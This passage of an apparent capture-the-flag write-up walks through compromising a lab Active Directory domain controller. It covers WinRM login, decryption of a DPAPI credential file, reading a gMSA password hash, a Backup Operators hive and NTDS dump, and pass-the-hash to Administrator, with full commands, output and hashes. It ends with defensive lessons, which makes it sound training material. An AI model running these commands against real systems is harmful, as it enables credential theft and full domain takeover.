In BloodHound, `schlop` holds no outbound object control, but it sits in Remote Management Users, which governs WinRM access.



*BloodHound showing schlop membership in Remote Management Users*

We connect with Evil-WinRM.

```
evil-winrm -i 10.0.25.42 -u 'schlop' -p '0xB1rdWasHere1337!'
```

`user.txt` is on `schlop`'s desktop.

```
*Evil-WinRM* PS C:\Users\schlop\Desktop> dir
```

```
    Directory: C:\Users\schlop\Desktop

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----        10/13/2026   2:33 AM            344 user.txt
```



*The Evil-WinRM session as schlop with user.txt listed on the desktop*

## Access as pebble

In the `schlop` session, the Documents folder holds a `networkAuth.cred` file.

```
type networkAuth.cred
```

```
<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>System.Management.Automation.PSCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>System.Management.Automation.PSCredential</ToString>
    <Props>
      <S N="UserName">pebble</S>
      <SS N="Password">01000000d08c9ddf0115d1118c7a00c04fc297eb01000000015eb4da53276741952d904a69c440310000000002000000000010660000000100002000000041903d6d7ae4fa86dd56bfe8741f4a15c9e2226d386f88f6aec7f15a5779f3e6000000000e8000000002000020000000b3604d46abd67313eb9a551d3b289c48c922bada4680807c9b7556e0633f19b920000000ae67f87d8559a61c20268cde4649e3538e0c15a7e7153c33e2fc6f7b13c713a44000000064462a2ea8ee6b2bccf09125fa86779431d4ccea0c9a30f2a325239c4199e26982ae745497a01016f90238173a2eb540b47410a39f97e8cb89c8d3ca14bcc8d7</SS>
    </Props>
  </Obj>
</Objs>
```

The file is a PowerShell credential exported with `Export-Clixml`, which encrypts the password with DPAPI (Data Protection API) keyed to the user and machine that created it. We are in `schlop`'s session on the domain controller, so if `schlop` saved the file, `Import-Clixml` decrypts it in place with no key handling. The username inside is `pebble`.

```
$cred = Import-Clixml -Path networkAuth.cred

$cred.GetNetworkCredential().Password
```

```
PebbleIs47!
```



*Import-Clixml decrypting networkAuth.cred to pebble's password in the schlop session*

We validate `pebble` against the DC.

```
nxc smb 10.0.25.42 -u 'pebble' -p 'PebbleIs47!' --shares
```

```
SMB         10.0.25.42      445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:kitsune.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.0.25.42      445    DC01             [+] kitsune.local\pebble:PebbleIs47! 
SMB         10.0.25.42      445    DC01             [*] Enumerated shares
SMB         10.0.25.42      445    DC01             Share           Permissions     Remark
SMB         10.0.25.42      445    DC01             -----           -----------     ------
SMB         10.0.25.42      445    DC01             ADMIN$                          Remote Admin
SMB         10.0.25.42      445    DC01             C$                              Default share
SMB         10.0.25.42      445    DC01             Files           READ,WRITE      Global file share
SMB         10.0.25.42      445    DC01             IPC$            READ            Remote IPC
SMB         10.0.25.42      445    DC01             NETLOGON        READ            Logon server share 
SMB         10.0.25.42      445    DC01             SYSVOL          READ            Logon server share 
```



*Validating pebble credentials with NetExec*

Valid, with the same share access.

## Access as svc_gmsa$

In BloodHound, `pebble` is a member of `IT`.



*BloodHound showing pebble membership in IT*

`IT` holds `ReadGMSAPassword` over `svc_gmsa$`.



*BloodHound ReadGMSAPassword: IT over svc_gmsa$*

`svc_gmsa$` is a gMSA (group Managed Service Account), whose password the domain generates and rotates on its own. Only the principals allowed to retrieve it can read that password from the account's `msDS-ManagedPassword` attribute.

```
nxc ldap 10.0.25.42 -u 'pebble' -p 'PebbleIs47!' --gmsa
```

```
LDAP        10.0.25.42      389    DC01             [*] Windows 11 / Server 2025 Build 26100 (name:DC01) (domain:kitsune.local) (signing:Enforced) (channel binding:Never) 
LDAP        10.0.25.42      389    DC01             [+] kitsune.local\pebble:PebbleIs47! 
LDAP        10.0.25.42      389    DC01             [*] Getting GMSA Passwords
LDAP        10.0.25.42      389    DC01             Account: svc_gmsa$            NTLM: 085691c182d60ab1a12466ce7b50d29d     PrincipalsAllowedToReadPassword: IT
```



*NetExec reading the svc_gmsa$ gMSA password as pebble and returning its NT hash*

NetExec returns the account's NT hash and lists `IT` as the only principal allowed to read the password.

## NTDS Dump

In BloodHound, `svc_gmsa$` is a member of Backup Operators.



*BloodHound showing svc_gmsa$ membership in Backup Operators*

Backup Operators holds SeBackupPrivilege, which lets a member read any file on the host regardless of its DACL. NetExec's `backup_operator` module uses that to back up the `SAM`, `SYSTEM`, and `SECURITY` registry hives from the domain controller and parse them locally. The account it recovers from the SAM is the domain controller's own local Administrator, the DSRM account, which lives in the DC's local database rather than in Active Directory. In this lab that account shares its password with the domain Administrator, so the recovered hash authenticates as `kitsune.local\Administrator` and the module replicates the NTDS over DRSUAPI in the same run.

```
nxc smb 10.0.25.42 -u 'svc_gmsa$' -H '085691c182d60ab1a12466ce7b50d29d' -M backup_operator
```

```
SMB         10.0.25.42      445    DC01             [*] Windows 11 / Server 2025 Build 26100 x64 (name:DC01) (domain:kitsune.local) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.0.25.42      445    DC01             [+] kitsune.local\svc_gmsa$:085691c182d60ab1a12466ce7b50d29d 
BACKUP_O... 10.0.25.42      445    DC01             [*] Triggering RemoteRegistry to start through named pipe...
BACKUP_O... 10.0.25.42      445    DC01             Saved HKLM\SAM to \\10.0.25.42\SYSVOL\SAM
BACKUP_O... 10.0.25.42      445    DC01             Saved HKLM\SYSTEM to \\10.0.25.42\SYSVOL\SYSTEM
BACKUP_O... 10.0.25.42      445    DC01             Saved HKLM\SECURITY to \\10.0.25.42\SYSVOL\SECURITY
SMB         10.0.25.42      445    DC01             [*] Copying "SAM" to "/home/kali/.nxc/logs/DC01_10.0.25.42_2026-11-05_194059.SAM"
SMB         10.0.25.42      445    DC01             [+] File "SAM" was downloaded to "/home/kali/.nxc/logs/DC01_10.0.25.42_2026-11-05_194059.SAM"
SMB         10.0.25.42      445    DC01             [*] Copying "SECURITY" to "/home/kali/.nxc/logs/DC01_10.0.25.42_2026-11-05_194059.SECURITY"
SMB         10.0.25.42      445    DC01             [+] File "SECURITY" was downloaded to "/home/kali/.nxc/logs/DC01_10.0.25.42_2026-11-05_194059.SECURITY"
SMB         10.0.25.42      445    DC01             [*] Copying "SYSTEM" to "/home/kali/.nxc/logs/DC01_10.0.25.42_2026-11-05_194059.SYSTEM"
SMB         10.0.25.42      445    DC01             [+] File "SYSTEM" was downloaded to "/home/kali/.nxc/logs/DC01_10.0.25.42_2026-11-05_194059.SYSTEM"
BACKUP_O... 10.0.25.42      445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2dffec5d0dda0cbc8bf571471641e001:::
BACKUP_O... 10.0.25.42      445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BACKUP_O... 10.0.25.42      445    DC01             DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
BACKUP_O... 10.0.25.42      445    DC01             KITSUNE\DC01$:aes256-cts-hmac-sha1-96:54fa75afbd2c8ebc0a7c66d12d6658135ff7cccd6308c6f252d5650ecf3d6142
BACKUP_O... 10.0.25.42      445    DC01             KITSUNE\DC01$:aes128-cts-hmac-sha1-96:98aee140894c50fc6b9df1f8f45c6bc0
BACKUP_O... 10.0.25.42      445    DC01             KITSUNE\DC01$:des-cbc-md5:7054e68cadc1e951
BACKUP_O... 10.0.25.42      445    DC01             KITSUNE\DC01$:plain_password_hex:dec5c211d4babd91e437304c43c778d6de456ecc929c4814883425cf929e33d9eb7d6d0147c801d263a5467ccf340b2b03dcb1c83a5bad6c7ee81391acf12a9c9b4159c736d32c68e301f35a66536423d3ae3416bbde25d75d79755a63c0b4513ebcae2988d8184eb9ab4927901ec4b09e2f1bb861f06474556cff298c08e4be1d38a0b5862d90920def2e5fc1c664adad34b4f2a31f5139cdba68129fe89b70dde6aac1f3e1f818fe6b8ebc70604c27354432e8e7e7970e3f463d0f92919d58ebbd328d52a9edc1eee7cbcec9a18f0cbb718ec6a273a568c76b630a84a820a8a3f467da2f6e4a31021b03b58ccbb021
BACKUP_O... 10.0.25.42      445    DC01             KITSUNE\DC01$:aad3b435b51404eeaad3b435b51404ee:051ab8df98778de210183fd864020f45:::
BACKUP_O... 10.0.25.42      445    DC01             dpapi_machinekey:0x2d3f243818d41c56a5d560c6f9e8e8e91c63cc7e
dpapi_userkey:0xdbc4e9db99118d5c9bbfa64d0ca5c065bfa814b5
BACKUP_O... 10.0.25.42      445    DC01             NL$KM:d6f91ebe2095216a88221f5c92ce2c8abbcf2c385953a43aefa003daeaa5a8cf0e6f9192023e5b4540e2c7a8d5da8b116d776b5f3f7848120fbfa8ce06c2c67c
SMB         10.0.25.42      445    DC01             [+] kitsune.local\Administrator:2dffec5d0dda0cbc8bf571471641e001 (Pwn3d!)
BACKUP_O... 10.0.25.42      445    DC01             [*] Dumping NTDS...
SMB         10.0.25.42      445    DC01             [+] Dumping the NTDS, this could take a while so go grab a redbull...
SMB         10.0.25.42      445    DC01             Administrator:500:aad3b435b51404eeaad3b435b51404ee:2dffec5d0dda0cbc8bf571471641e001:::
SMB         10.0.25.42      445    DC01             Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.0.25.42      445    DC01             krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d1c9d31dc9ece5e96fc344c85782ba93:::
SMB         10.0.25.42      445    DC01             kitsune.local\ranch:1103:aad3b435b51404eeaad3b435b51404ee:47d29308446189faa2acec65586963c1:::
SMB         10.0.25.42      445    DC01             kitsune.local\schlop:1105:aad3b435b51404eeaad3b435b51404ee:c5b3940d8ac6a958780d27b462595cf4:::
SMB         10.0.25.42      445    DC01             kitsune.local\pebble:1106:aad3b435b51404eeaad3b435b51404ee:b83abecf382a399ee1885f72a596d2d3:::
SMB         10.0.25.42      445    DC01             kitsune.local\ross:1107:aad3b435b51404eeaad3b435b51404ee:3f48c34a06f664d675b41282e7606ed7:::
SMB         10.0.25.42      445    DC01             kitsune.local\protagonist:1108:aad3b435b51404eeaad3b435b51404ee:3f48c34a06f664d675b41282e7606ed7:::
SMB         10.0.25.42      445    DC01             DC01$:1000:aad3b435b51404eeaad3b435b51404ee:051ab8df98778de210183fd864020f45:::
SMB         10.0.25.42      445    DC01             svc_gmsa$:1602:aad3b435b51404eeaad3b435b51404ee:085691c182d60ab1a12466ce7b50d29d:::
SMB         10.0.25.42      445    DC01             [+] Dumped 10 NTDS hashes to /home/kali/.nxc/logs/ntds/DC01_10.0.25.42_2026-11-05_194059.ntds of which 8 were added to the database
SMB         10.0.25.42      445    DC01             [*] To extract only enabled accounts from the output file, run the following command: 
SMB         10.0.25.42      445    DC01             [*] grep -iv disabled /home/kali/.nxc/logs/ntds/DC01_10.0.25.42_2026-11-05_194059.ntds | cut -d ':' -f1
BACKUP_O... 10.0.25.42      445    DC01             [*] Cleaning dump with user Administrator and hash 2dffec5d0dda0cbc8bf571471641e001 on domain kitsune.local
BACKUP_O... 10.0.25.42      445    DC01             [*] Successfully deleted dump files !
```



*NetExec's backup_operator module saving the registry hives and dumping NTDS, with the Administrator hash recovered*

The module validates as `kitsune.local\Administrator` and dumps the NTDS, giving us the Administrator NT hash `2dffec5d0dda0cbc8bf571471641e001`.

## Shell as Administrator (root.txt)

We log in to the domain controller over WinRM with the Administrator NT hash.

```
evil-winrm -i 10.0.25.42 -u 'administrator' -H '2dffec5d0dda0cbc8bf571471641e001'
```



*The Evil-WinRM session on DC01 as Administrator with root.txt listed on the desktop*

We have a shell on the domain controller as the domain Administrator, so the domain is fully compromised. `root.txt` is on the Administrator's desktop.

## Final Thoughts

The certificate request was the one place I had to stop: it failed on `CERTSRV_E_KEY_LENGTH` until I matched the template's 4096-bit minimum with `-key-size`. The DPAPI credential in `schlop`'s Documents folder was the other thing I checked.

A Password Safe database of service credentials should never sit on a share Guest can read, since a vault is only a vault while the file behind it is out of reach. A certificate template that links its issuance policy to a group hands that group's membership to anyone who can enroll. An exported credential decrypts for anyone who reaches its owner's session, so it is a stored password, not a protected one. A gMSA's readers should be the hosts that run the service, not users. And Backup Operators is tier 0 on a domain controller, since SeBackupPrivilege reads the hives that lead to NTDS.

— 0xB1rd
